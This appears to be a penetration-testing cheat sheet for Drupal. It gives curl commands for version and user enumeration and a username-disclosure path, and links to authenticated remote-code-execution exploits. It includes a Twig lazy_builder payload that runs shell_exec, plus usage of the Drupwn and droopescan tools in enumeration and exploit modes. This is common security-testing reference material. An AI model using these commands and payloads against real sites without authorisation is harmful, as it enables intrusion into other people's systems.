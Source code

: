 # Manual
```bash
# check meta
curl https://www.drupal.org/ | grep 'content="Drupal'

# users
# 403 -> exists | 404 -> doesn"t
curl https://www.drupal.org/user/X
# get username
curl https://www.drupal.org/reset/user/X/1/1
```

## Exploits
### Drupal < 8.7.x Authenticated RCE module upload
{% content-ref url="https://www.drupal.org/project/drupal/issues/3093274" %} RCE {% endcontent-ref %}
{% content-ref url="https://www.drupal.org/files/issues/2019-11-08/drupal_rce.tar_.gz" %} Drupal RCE (tar) {% endcontent-ref %}

### Drupal < 9.1.x Authenticated RCE Twig templates
{% content-ref url="https://www.drupal.org/project/drupal/issues/2860607/" %} RCE Twig {% endcontent-ref %}
"Administer views" -> new View of User Fields - >Add a "Custom text"
```java
"{{ {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]} }}"
```

### If found /node/$NUMBER, the number could be devs or tests pages

### Drupal 8
{% content-ref url="https://www.exploit-db.com/exploits/46459" %} Drupal 8 Exploit {% endcontent-ref %}

### Check for username disclosure on old versions:
?q=admin/views/ajax/autocomplete/user/a

# Tools
## Drupwn
>Enumeration & Exploitation
{% content-ref url="https://github.com/immunIT/drupwn" %} Drupwn {% endcontent-ref %}

```bash
# install
git clone https://github.com/immunIT/drupwn.git
cd drupwn
pip3 install -r requirements.txt

# enum
drupwn --mode enum --target $url

# exploit
drupwn --mode exploit --target $url
```

## droopescan
{% content-ref url="https://github.com/SamJoan/droopescan" %} Droopescan {% endcontent-ref %}

```bash
apt-get install python-pip
pip install droopescan

# scan
 droopescan scan drupal -u example.org
```

